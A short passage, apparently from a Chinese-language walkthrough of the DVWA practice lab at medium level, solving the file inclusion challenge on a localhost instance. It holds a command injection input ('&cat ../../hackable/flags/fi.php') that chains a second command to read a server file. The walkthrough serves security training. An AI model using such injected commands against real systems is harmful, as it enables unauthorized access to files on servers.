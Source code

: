 ```bash
http://localhost:8086/vulnerabilities/fi/?page=fi.php
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2030.png)

接下來的流程就跟 low 一樣， `5.)` 從 page source 就能看到， `3.)` 從 command injection 用 cat 指令就能看到

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2031.png)

```bash
&cat ../../hackable/flags/fi.php
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2032.png)
